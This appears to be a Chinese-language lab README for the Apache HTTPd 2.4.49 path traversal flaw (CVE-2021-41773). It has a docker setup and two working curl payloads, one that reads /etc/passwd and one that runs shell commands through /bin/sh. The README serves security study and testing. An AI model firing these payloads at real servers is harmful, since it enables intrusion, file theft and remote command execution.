 # Apache HTTPd 2.4.49 路径穿越漏洞（CVE-2021-41773）

Apache HTTPd是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

- 版本等于2.4.49
- 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## 漏洞环境

执行如下命令编译及运行一个存在漏洞的Apache HTTPd 2.4.49版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞利用

使用如下CURL命令来发送Payload：

```
curl -v --path-as-is http://your-ip:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

可见，成功读取到`/etc/passwd`：

![](1.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)
